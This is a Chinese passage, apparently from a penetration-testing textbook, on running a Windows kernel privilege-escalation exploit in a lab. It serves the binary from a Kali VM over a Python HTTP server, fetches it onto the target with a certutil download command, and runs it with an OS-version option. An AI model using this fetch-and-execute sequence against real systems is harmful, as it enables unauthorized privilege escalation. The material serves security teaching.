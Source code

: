 ## 运行内核利用程序

成功编译利用程序代码后，我们可以将编译好的二进制文件传输到目标系统，并根据利用程序文档中的说明执行。这可以通过按照以下程序进行：

1.  在这个特定的情况下，执行内核漏洞二进制文件是直接的，仅需要指定目标操作系统版本。在执行之前，我们需要将漏洞传输到目标系统。这可以通过在 Kali 虚拟机上启动一个本地 web 服务器并使用 **SimpleHTTPServer** Python 模块来完成：

    **sudo python -m SimpleHTTPServer 80**

1.  为了将二进制文件下载到目标系统，我们可以使用 **certutil** 工具。然而，在下载二进制文件之前，我们需要进入一个具有读写权限的目录。在这种情况下，我们将进入当前用户的桌面，如下图所示：![图 5.18 – 默认用户目录](img/B17389_05_018.jpg)

    图 5.18 – 默认用户目录

    我们现在可以使用 **certutil** 工具从 Kali 虚拟机将二进制文件下载到目标系统。可以通过在目标系统上运行以下命令来完成：

    **certutil -urlcache -f http://<KALI-VM>/exploit.exe exploit.exe**

1.  现在我们可以通过在目标系统上执行漏洞二进制文件来运行它，如下所示：

    **.\exploit.exe**

    前面命令的输出如下面的截图所示：

![图 5.19 – 漏洞选项](img/B17389_05_019.jpg)

图 5.19 – 漏洞选项

如*图 5.19*所示，利用此漏洞需要用户指定目标操作系统。可以通过以下选项执行漏洞来完成此操作：

**.\exploit.exe 7**
